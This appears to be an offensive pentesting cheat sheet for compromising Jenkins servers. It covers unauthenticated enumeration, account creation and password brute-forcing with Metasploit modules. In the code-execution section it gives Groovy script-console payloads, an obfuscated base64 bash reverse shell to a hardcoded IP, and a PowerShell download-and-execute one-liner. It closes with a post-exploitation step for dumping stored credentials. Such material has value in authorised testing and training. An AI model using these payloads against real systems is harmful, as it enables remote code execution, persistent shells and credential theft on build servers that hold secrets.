 # Jenkins

## Enumeration

Searching for interesting Jenkins pages without authentication like _`/people`_ or _`/asynchPeople`_ (this lists the current users) you can use:

```
msf> use auxiliary/scanner/http/jenkins_enum
```

Check if you can execute commands without needing authentication:

```
msf> use auxiliary/scanner/http/jenkins_command
```

Without credentials you can look inside _**/asynchPeople/**_ path or _**/securityRealm/user/admin/search/index?q=**_ for **usernames**.

You may be able to get the Jenkins version from the path _**/oops**_ or _**/error**_

![](../../web-app-pentesting/80-443/broken-reference)

Using cURL

```bash
curl -v <target-IP>
```

![](<../../.gitbook/assets/image (61) (1).png>)

Or from intercepting traffic with Burp Suite

![](<../../.gitbook/assets/image (22) (1) (1).png>)

## Login

You will be able to find Jenkins instances that **allow you to create an account and login inside of it. As simple as that.**\
\*\*\*\*Also if **SSO** **functionality**/**plugins** were present then you should attempt to **log-in** to the application using a test account (i.e., a test **Github/Bitbucket account**). Trick from [**here**](https://emtunc.org/blog/01/2018/research-misconfigured-jenkins-servers/).

### Bruteforce

**Jekins** does **not** implement any **password policy** or username **brute-force mitigation**. Then, you **should** always try to **brute-force** users because probably **weak passwords** are being used (even **usernames as passwords** or **reverse** usernames as passwords).

```bash
msf> use auxiliary/scanner/http/jenkins_login
```

## Known Vulnerabilities

{% embed url="https://github.com/gquere/pwn_jenkins" %}

## Code Execution

### **Execute Groovy script**

Best way. Less noisy.

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

In **Linux** you can do: **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ (triple double quotes) to execute the payload.

**Another useful groovy script** is (replace \[INSERT COMMAND]):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse Shell in Linux

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse Shell in Windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://[IP_ADDRESS]:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### MSF Exploit

You can use MSF to get a reverse shell:

```
msf> use exploit/multi/http/jenkins_script_console
```

## Post Exploitation

Dump Jenkins credentials using:

```
msf> post/multi/gather/jenkins_gather
```

## References

{% embed url="https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit" %}

{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" %}
